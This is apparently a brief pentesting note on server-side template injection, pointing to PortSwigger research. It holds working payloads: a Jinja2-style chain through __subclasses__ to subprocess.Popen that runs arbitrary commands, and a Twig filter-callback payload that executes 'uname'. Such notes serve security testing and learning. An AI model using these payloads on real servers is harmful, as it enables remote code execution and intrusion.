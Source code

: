 #### Sometimes when user input is accepted, either intentional or unintentional we get XSS, sometimes this also means we cen get template injection

[Report on Template Injection](https://portswigger.net/research/server-side-template-injection)

test with `{{'7'*7}}`

`{{''.__class__.mro()[1].__subclasses__()}}` _you may need to change dict selection of class to get the output of interesting functions_

_once you find it, do a replace all '>' with a newline, so that you can determine which number to specify as subclass_

Check the report carefully, as you can see that the `__` are hidden due to the processing of the data as Markdown in the initial report.
You may need to change the value 1 to get the list of interesting functions. Once you get it, you will need to find one that will give you code execution. You can use the following payload to get access to <class 'subprocess.Popen'>:

`{{''.__class__.mro()[1].__subclasses__()[X]}}`

Where X is the integer you need to find.

Finally, you can call this method using:

`{{''.__class__.mro()[1].__subclasses__()[X](COMMAND)}}`  
`{{''.__class__.mro()[2].__subclasses__()[233](["PATH_TO_BINARY","ARG_1"])}}`

Where:

`X` was found previously.
`COMMAND` is the command you want to run.
Make sure you read the Python documentation for the popen to make sure you have get the right syntax for the command (or add the right option).

**Another injection for code execution**
`{{_self.env.registerUndefinedFilterCallback('exec')}}{{_self.env.getFilter('uname')}}`
